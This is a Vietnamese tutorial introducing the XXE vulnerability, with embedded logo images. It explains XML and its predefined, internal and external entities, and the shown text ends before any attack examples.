# xxe-injection

I.Định nghĩa về lỗ hổng XXE

Trước khi vào sâu lỗ hổng thì đầu tiên mình muốn các bạn hiểu về khái niệm XML

Vậy XML có nghĩa là gì 

Giống như HTML là hypertext markup language là hiển thị dữ liệu lên trình duyệt thì XML là XML là viết tắt của "extensible markup language" (ngôn ngữ đánh dấu mở rộng) dùng để lưu trữ và truyền tải dữ liệu , trong khi HTML là các thẻ cố định thì XML có thể tự định nghĩa thẻ . 

Vậy các thực thể XML là gì ? 

**XML entities** hoạt động giống như những "phím tắt" hoặc bí danh để thay thế các ký tự đặc biệt, giúp tài liệu XML không bị lỗi cấu trúc.

**1. Predefined Entities (Thực thể định nghĩa sẵn)**

Đây là những thực thể mặc định mà XML cung cấp để thay thế cho 5 ký tự đặc biệt có thể làm hỏng cấu trúc thẻ: **PortSwigger**

[PortSwigger](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAIAAAACACAMAAAD04JH5AAAAM1BMVEVHcEz/ZjP/////YSn/ZjP/mX3AWTj/ZjP/29DnYTX/oYisVTr/XB//fVT/7uj/0sf/wrL3LR3fAAAACnRSTlMA////VqTjlMOuPot+0QAAAkVJREFUeJzt28uWwiAMBmABnc7p9Pb+TzvOZg4mlsKfBFwkujafNcQa8Hbz8PiIuE/t8fjO4gG8wD0DTKE50hyzmFP7K0wOcIADHOAAB3wS4Ks9/7pJASED/LQD9jgWcMShgGWOQwFpJfm3tS/gtQCfAeXHAaQAYzwWJD8M4Pmh9w8DEi3AHUuPAtgCwAoQBigtABwQaAFAHQAHaC0AFLCQDvwsQPwCAAC2ADZJfgBAO6CgADEA7cCCAoQAbAEIChAA8AKUvf9WAO/AqzB/G0CzAyKAxG4BhAXYCtDswAgg0QI8UvrrQf9PY8Cbr2ASxgBagHGjYXpXzAuQh+1t+XV+UwDrgJ0BbAF0BrAO3P0KVOU3A9QsAFsA7cCdAXUFaAeoLEAzQEN+G8By7MWw/wiWYojHdLIhVRgOkA8qHeAABzhAF1Ds2ic6TcB+FGI/GaVpAopx9rupG+CsQHoBTofpnQDno6Q+gMIopw+gMErqAijNEnsAirs5HQB7cZZqD9jKsyNzwNUsUwpgkyoKuPqKlAFCoKM6CrjczZECQsoffJZ5OcAUA14wfDfnMjQBPH/FMF0RwEY5VaNTzSsADdP1AAu2nakGYMP0yv10LQC8nakEwApQEYBvZyoB8P10FcCb/fTq0AC8OVBS/ytRAyA6USQHCLczFa6AbDtTDGC3AI0niqQA3gEbpxRCgHw/XQiQH6mTAdgH0H6gQxcAHGlTBSAHSjJA+7FeAoAOdGSA4QebHeAABzjAAQ4YDhj+p1cPj4HxCxhlX1oPtaIUAAAAAElFTkSuQmCC)

- `&lt;` đại diện cho `<` (Less than)
- `&gt;` đại diện cho `>` (Greater than)
- `&amp;` đại diện cho `&` (Ampersand)
- `&apos;` đại diện cho `'` (Apostrophe)
- `&quot;` đại diện cho `"` (Quotation mark)

**2. Internal Entities (Thực thể nội bộ)**

Bạn tự định nghĩa một cái tên để thay thế cho một đoạn văn bản dài hoặc lặp lại ngay trong chính tài liệu XML đó.

- **Cách khai báo (trong DTD):** `<!ENTITY copyright "Bản quyền thuộc về Công ty ABC">`
- **Cách dùng:** Khi bạn viết `&copyright;` trong nội dung, trình thông dịch sẽ tự động đổi nó thành "Bản quyền thuộc về Công ty ABc
    
    [LinkedIn](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAEAAAABACAYAAACqaXHeAAADCUlEQVR4nO2bO2zaUBSGf1dFCh1CqDOkyUBaS+mQSDgrQ+Is2RDZyJg1nRjYgaEbA1Mzhm4ZG7FFlWKpEksqxZWaoZVcCUWlSxAxi5EY3KEFEWyIr2M4+PFNGN9rn/P5Pi2ZMwwDQeYZdQDUhAKoA6Dm+bgTXL5WBJADEJtZNNNBA1ABUDHK6fvRkyYBXL62BEAGkJx6aLMhBqAA4ACAOHrSqgvk4J/kh0n+b9UPGCfAr5hysxLg9T4/CVNu4SzgtKIk8JCEZQCArN5BVluuBTVLmAVIAo/q4TYS8ejgvwI20GjrODq79pwIpi4gCTwuj1MPku+TiEdxeZyCJPCuBTcLmARUD7ddKTNP2BYgCbzlkx8lEY96qhUwCFi2fVGWstQEfhq0LUBW72xflKUsNQwCWmi09UfLNdq6p6ZCpi5wdHbtSpl5gkmArLawd1K3bAmNto69k7qnnj7gYCUoqy2sv/8c3KVwH1lteTbpYRwLmDb9xZQkLENparjXewAApdkZ/HYDZgFGOT3xPJev2S5fuviJ4sWPwbEk8MjtvEFmc2XiPRptHdWrW1S+/HqyjLloAesvX6CaFbFrcwmdiEdR2N9Abuc1cuc3qF7dOr43uQBxdRHyuxRiCxHmurGFCE6z/95zOpVAuhQW15wnP8xpVnS8ASMVkNlceXLyfYr7bx3V881maFfgIa4uMtfzjQAAONh6xVyHfBAcRev2oPzuDI6XohEkbT5ZJ+PA3AjQur2xU5ok8Khkth4VIa55tAto3R6kD/WxU5mstmztMp0MqHMhIHd+A6XZmVhGaXbw8avzBc84yAX0l7V2GB4b3IJcwKfvf2yXVZqa6/cnF0C9pSYX4ObW1gnkAliYRmshFxD4LkBNKIA6AGpCAdQBUBMKoA6AmlAAdQDUhAKoA6CGG/1miMvXfP0RkVFOc8PHgW8BoQDqAKixEuD+i7f5wZSblYDKDAKhwpSbaRYAAC5fU+C/74a+GeW0rY+mAEACUII/uoMGoGSVPDCmBQSJcBagDoCawAv4CyJz5Ou100U7AAAAAElFTkSuQmCC)
    

**3. External Entities (Thực thể bên ngoài)**

Đây là loại "ghi chú" quan trọng nhất về bảo mật. Thay vì chứa giá trị cụ thể, nó **trỏ đến một nguồn dữ liệu khác** (tệp tin trên máy tính hoặc một đường link URL) bằng từ khóa `SYSTEM`. 

[InfoSec Write-ups](data:image/png;base64,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